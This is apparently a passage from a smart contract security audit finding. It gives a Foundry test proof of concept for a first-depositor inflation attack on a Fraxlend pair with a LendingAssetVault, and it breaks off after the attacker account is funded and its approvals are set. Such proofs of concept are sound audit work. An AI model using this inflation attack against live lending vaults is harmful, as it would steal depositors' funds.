 The PoC demonstrates that the first depositor's entire deposit is lost, and obtained by the attacker.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test} from "forge-std/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

import {FraxlendPairDeployer, ConstructorParams} from "@fraxlend/FraxlendPairDeployer.sol";
import {FraxlendWhitelist} from "@fraxlend/FraxlendWhitelist.sol";
import {FraxlendPairRegistry} from "@fraxlend/FraxlendPairRegistry.sol";
import {FraxlendPair} from "@fraxlend/FraxlendPair.sol";
import {VariableInterestRate} from "@fraxlend/VariableInterestRate.sol";
import {IERC4626Extended} from "@fraxlend/interfaces/IERC4626Extended.sol";

import {LendingAssetVault} from "contracts/LendingAssetVault.sol";
import {MockDualOracle} from "./MockDualOracle.sol";

import {console} from "forge-std/console.sol";

contract PairTest is Test {
    FraxlendPairDeployer deployer;
    FraxlendPair pair;
    ERC20 DAI = new ERC20("DAI", "DAI");
    ERC20 aspTKN = new ERC20("aspTKN", "aspTKN");
    VariableInterestRate _variableInterestRate;
    MockDualOracle oracle = new MockDualOracle();
    FraxlendWhitelist _fraxWhitelist;
    FraxlendPairRegistry _fraxRegistry;
    uint256[] internal _fraxPercentages = [10000e18];
    LendingAssetVault _lendingAssetVault;

    // fraxlend protocol actors
    address internal comptroller = vm.addr(uint256(keccak256("comptroller")));
    address internal circuitBreaker = vm.addr(uint256(keccak256("circuitBreaker")));
    address internal timelock = vm.addr(uint256(keccak256("comptroller")));

    address public attacker = makeAddr("attacker");
    function setUp() public {
        _deployVariableInterestRate();
        _deployFraxWhitelist();
        _deployFraxPairRegistry();
        _deployFraxPairDeployer();
        _deployFraxPairs();
        _deployLendingAssetVault();
    }

    function testJ_POC() public {
        assertEq(pair.totalSupply(), 0);
        assertEq(address(pair.externalAssetVault()), address(_lendingAssetVault));
    }

    function testJ_inflation() public {

        vm.startPrank(attacker);

        deal(address(DAI), attacker, 10_000e18);
        deal(address(aspTKN), attacker, 10_000e18);
        DAI.approve(address(pair), 10_000e18);
        DAI.approve(address(_lendingAssetVault), 10_000e18);
```